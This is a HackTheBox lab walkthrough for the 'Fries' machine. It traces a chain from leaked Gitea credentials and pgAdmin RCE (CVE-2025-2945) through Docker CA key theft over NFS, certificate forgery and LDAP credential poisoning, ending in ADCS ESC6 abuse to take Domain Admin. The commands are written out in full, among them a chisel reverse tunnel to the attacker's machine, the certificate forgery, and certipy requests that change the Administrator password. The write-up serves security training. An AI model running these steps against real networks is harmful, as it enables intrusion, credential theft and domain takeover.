




# HackTheBox — Fries Walkthrough (Hard)

Fries is one of those boxes that rewards patience and methodical enumeration across a genuinely complex environment: a Windows Active Directory domain with a separate Linux web host, multiple containerized services, and a five-stage attack chain that ends with ADCS certificate abuse. If you can keep track of which credential belongs to which layer, you'll have a great time.

> **Prerequisites:** This walkthrough assumes familiarity with Active Directory enumeration and Kerberos, Docker networking and TLS, ADCS attack primitives (ESC6/ESC7), and general container pivoting techniques. If you're newer to AD certificate abuse, I'd recommend working through some easier AD boxes first — we looked at certificate services in a simpler context over in the [Pirate walkthrough](/writeups/season10/pirate/).

---

<div id="protected-marker"></div>

## Reconnaissance

I kicked off the usual nmap scan and immediately noticed this wasn't going to be a simple web box. The port mix — SSH, DNS, Kerberos, LDAP, SMB, WinRM, and two HTTPS services — screamed "Active Directory with a containerized web layer."




A few things stood out right away: SSH on port 22 is answering as Ubuntu, which tells us the DC is behind a Linux proxy host. Port 443 is serving `pwm.fries.htb`, which I recognized as PWM — an open-source LDAP password management application. That's worth noting.

Adding `fries.htb` to `/etc/hosts` and doing some virtual host fuzzing turned up the full picture:

- `fries.htb` — Flask restaurant website (running in Docker on the web host)
- `code.fries.htb` — **Gitea 1.22.6** (a self-hosted git service)
- `pwm.fries.htb` — **PWM 2.0.8** in open configuration mode
- `db-mgmt05.fries.htb` — **pgAdmin 4 v9.1** (also containerized)

Kerberos enumeration against the DC with `kerbrute` gave me the AD users: `administrator`, `d.cooper`, `d.wilson`, `s.johnson`, and `web`.

The network topology I pieced together looked roughly like this:

```
Kali → VPN → DC01 (<TARGET> / 192.168.100.1)
                ↕
             web host (192.168.100.2 / 172.18.0.5)
                ↕  Docker bridge (172.18.0.0/16)
  ┌─────────────┼─────────────┐
Flask(.0.2)  Postgres(.0.3)  pgAdmin(.0.4)
                            PWM(.0.6)
                          NFS/Gitea(.0.1 gateway)
```

---

## Foothold

### Step 1: Gitea Credential Leak

The box hands us starting credentials: `d.cooper@fries.htb` / `D4LE11maan!!`. These didn't immediately open anything dramatic, but plugging them into Gitea as `dale / D4LE11maan!!` got me in.

Inside the `dale/fries.htb` repository, the initial commit hadn't been cleaned up. The `.env` file was still there in full:




The `docs/images/docker-ps.png` screenshot in the repo also revealed that the user `svc@web` was managing the containers. And the README helpfully mentioned `db-mgmt05.fries.htb` as the database management interface — confirming the pgAdmin instance I'd found during vhost enumeration.

### Step 2: Authenticated RCE via CVE-2025-2945 (pgAdmin)

The starting credentials also worked for pgAdmin at `db-mgmt05.fries.htb`. There's an important gotcha here that cost me time on first attempt: **pgAdmin requires a CSRF token on login**. If you POST to `/login` without first fetching the CSRF token from the login page's JavaScript, the server silently returns a 302 back to `/login` — which looks exactly like wrong credentials. Use a `requests.Session()` so cookies and the CSRF token flow through properly.

CVE-2025-2945 is an authenticated RCE via `eval()` in pgAdmin's query tool download endpoint. I combined it with the PostgreSQL credentials from the git leak to execute arbitrary commands. For simple one-liners, I could read output via the error message:

```bash
python3 /tmp/exploit_pgadmin_read.py "env"
```

For more complex payloads, I wrote a Python script to `/tmp/x.py` via base64 and executed it:

```bash
python3 /tmp/exploit_pgadmin_script.py "<base64-encoded-multiline-python>"
```

One thing to note: pgAdmin 9.x runs on Python 3.12 with psycopg3 (not psycopg2) inside `/venv/lib/python3.12/site-packages/`. Make sure you're invoking `/venv/bin/python3` for any DB operations, not the system Python.

Running `env` inside the pgAdmin container immediately handed me the jackpot:




### Step 3: SSH onto the Web Host as `svc`

Password reuse is alive and well. `svc / Friesf00Ds2025!!` worked for SSH directly onto the web host at `<TARGET>`.

There's a shell-specific trap here: the `!!` at the end of that password triggers bash/zsh history expansion, even inside single quotes in some configurations. `sshpass -p 'Friesf00Ds2025!!'` will fail silently. The reliable fix is to use a file:

```bash
echo 'Friesf00Ds2025!!' > /tmp/svc_pass.txt
sshpass -f /tmp/svc_pass.txt ssh svc@<TARGET> 'id'
```

I had `uid=1001(svc) gid=1001(svc) groups=1001(svc)` on the Linux web host. Good start.

### Step 4: Stealing the Docker CA Key via NFS

The Docker daemon on the web host was listening on `127.0.0.1:2376` with `--tlsverify`. To talk to it, I'd need a valid TLS client certificate signed by the Docker CA. The question was where those CA files lived.

Poking around revealed an NFS export at `/srv/web.fries.htb/` — but it was served on `172.18.0.1` (the Docker bridge gateway), not directly accessible from my Kali box. I set up a chisel tunnel from the pgAdmin container back to Kali:

```bash
# On pgAdmin container (via RCE):
./chisel client KALI_IP:9000 R:2049:172.18.0.1:2049 R:111:172.18.0.1:111
```

```bash
# On Kali:
sudo mount -t nfs 127.0.0.1:/ /mnt/fries_nfs -o nolock
```

The `certs/` directory on the NFS share was group-restricted with a high GID (59605603). The trick here is to create a matching local group on Kali and use `sg` to access the files:

```bash
sudo groupadd -g 59605603 nfscerts
sudo usermod -aG nfscerts kali
sg nfscerts -c "cp /mnt/fries_nfs/certs/ca.pem /tmp/"
sg nfscerts -c "cp /mnt/fries_nfs/certs/ca-key.pem /tmp/"
```

With the CA private key in hand, I forged a client certificate with `CN=root` to bypass the Docker authorization broker:

```bash
openssl genrsa -out key.pem 2048
openssl req -new -key key.pem -out client.csr -subj "/CN=root"
openssl x509 -req -in client.csr -CA ca.pem -CAkey ca-key.pem \
  -CAcreateserial -out cert.pem -days 365 -sha256
```

Then I tunneled port 2376 via the SSH session I had as `svc` and connected:

```bash
sshpass -f /tmp/svc_pass.txt ssh -L 2376:127.0.0.1:2376 -N -f svc@<TARGET>

docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem \
  -H=tcp://127.0.0.1:2376 ps
```

Full Docker API access. The same Docker CA key hijack approach is conceptually similar to what we saw in [AirTouch](/writeups/machines/airtouch/) with container escape techniques, though the specific TLS forgery vector is unique to this box.

### Step 5: PWM LDAP Poisoning → `svc_infra` Credentials

With Docker API access I could `exec` into any running container. I dropped into the PWM container and modified its configuration file:

```bash
docker --tlsverify ... exec -it <pwm_container_id> /bin/sh
vi /config/PwmConfiguration.xml
```

I changed the LDAP server URL from `ldaps://dc01.fries.htb:636` to point at my Kali machine on port 389. Crucially, I also flipped `configIsEditable` to `false` — without this, PWM stays in "configuration mode" and never actually performs LDAP authentication, so Responder would never receive a bind request. After restarting the PWM container, I started Responder and triggered a login attempt at `https://pwm.fries.htb/pwm/private/login`.

Responder caught the LDAP bind in cleartext:




This credential poisoning technique is covered in the [Responder Starting Point writeup](/writeups/starting-point/responder/) at a more introductory level — but this application to a Docker-hosted service makes it considerably more involved.

---

## Privilege Escalation

### Step 6: gMSA Password Retrieval

`svc_infra` turned out to have the ability to read Group Managed Service Account (gMSA) passwords. A quick query with NetExec confirmed it:

```bash
nxc ldap fries.htb -u svc_infra -p m6tneOMAh5p0wQ0d --gmsa
```

```
LDAP    fries.htb    389   DC01   gMSA_CA_prod$   NTLM: 27e126bdd4ae61c18377c4f8dd42fa86
```

`gMSA_CA_prod$` — the name alone hints at what's coming.

### Step 7: ADCS ESC6/ESC7 Chain → Domain Admin

`gMSA_CA_prod$` had `ManageCa` rights on the `fries-DC01-CA` Certificate Authority plus WinRM access to DC01. This is the ESC7 primitive: an account with `ManageCa` can add itself as a CA Officer, then issue certificates for any template including SubCA — regardless of access controls on the template itself.

But there's a more elegant path here using ESC6. With `ManageCa`, I could enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag on the CA, which allows requesters to supply arbitrary Subject Alternative Names on *any* certificate request. The reason I needed to set this via PowerShell COM rather than `certutil -setreg` is subtle but important: `certutil` requires local admin elevation (UAC), which WinRM sessions don't give you. The `CertificateAuthority.Admin` COM object, however, uses the `ManageCa` ACE directly:

```powershell
$CertAdmin = New-Object -ComObject CertificateAuthority.Admin
$CertAdmin.SetConfigEntry(
    "DC01.fries.htb\fries-DC01-CA",
    "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy",
    "EditFlags",
    (1114446 -bor 0x40000)
)
Restart-Service certsvc
```

With `EDITF` enabled (ESC6), I requested a User template certificate with `administrator@fries.htb` as the UPN SAN:

```bash
certipy-ad req -ca fries-DC01-CA \
  -template User \
  -upn administrator@fries.htb \
  -u svc_infra@fries.htb \
  -p m6tneOMAh5p0wQ0d \
  -dc-ip <TARGET>
```

Here's where the modern strong mapping enforcement (KB5014754) complicates things: the CA issues the certificate with the Administrator UPN in the SAN, but it also stamps `svc_infra`'s SID into the security extension. PKINIT (the Kerberos path) checks the SID and rejects the mismatch. So a normal `certipy-ad auth -pfx` would fail.

The bypass is elegant: use `certipy-ad auth` with the `-ldap-shell` flag. This authenticates to LDAPS using Schannel (TLS client certificate), which maps the identity purely by UPN — it never checks the SID in the security extension. This gives you an LDAP shell operating as the Administrator UPN with full AD write access:

```bash
printf "change_password administrator Pwn3d2026!\nexit\n" | \
  certipy-ad auth -pfx administrator.pfx -dc-ip <TARGET> -ldap-shell
```

With the Administrator password changed, WinRM with the new credentials gave me a shell as `FRIES\Administrator`, and the flags were on the Desktop.

---

## Lessons Learned

This box is dense with sharp edges. Here's what I'd want to remember for next time:

**pgAdmin CSRF is not optional.** The login endpoint silently redirects on CSRF failure in a way that looks identical to wrong credentials. Always use `requests.Session()` to handle cookie/CSRF flows on modern web apps, and if login "fails" with what you know are correct creds, check for CSRF token requirements before assuming the password is wrong.

**`!!` in passwords breaks bash history expansion.** Even inside single quotes, some shell configurations interpret `!!` as history expansion. Passwords containing `!!` should always be passed via file (`sshpass -f`) or programmatically via Python subprocess. Never trust your shell to handle them literally.

**NFS GID trick is underappreciated.** When NFS exports have files owned by a non-existent GID on your system, `groupadd -g <GID>` + `sg groupname -c "command"` gives you access without needing to change the file permissions. Useful in a lot of post-exploitation NFS scenarios.

**Docker CA key theft = complete daemon control.** If you can read the Docker CA private key from anywhere (NFS, mounted volume, leaked repo), you can forge a client cert with `CN=root` and own the Docker socket. Treat CA private keys with the same urgency as root SSH keys.

**PWM LDAP poisoning requires exiting config mode.** Changing the LDAP URL in `PwmConfiguration.xml` isn't enough — the service must also have `configIsEditable=false` and be restarted. Config mode bypasses the actual auth flow entirely, so Responder won't see anything until the service thinks it's "running."

**EDITF via COM, not certutil.** `certutil -setreg` requires local admin (UAC elevation). The `CertificateAuthority.Admin` COM object uses the `ManageCa` ACE directly from a non-elevated WinRM session. When you have `ManageCa` but not local admin, COM is the way in.

**ESC6 + KB5014754 strong mapping → Schannel bypass.** PKINIT rejects certs where the embedded SID doesn't match the requested identity. LDAPS Schannel authentication doesn't perform this check — it maps by UPN only. The `certipy-ad auth -ldap-shell` flag leverages exactly this gap. If you get a cert but PKINIT fails, try the LDAP shell path before giving up.
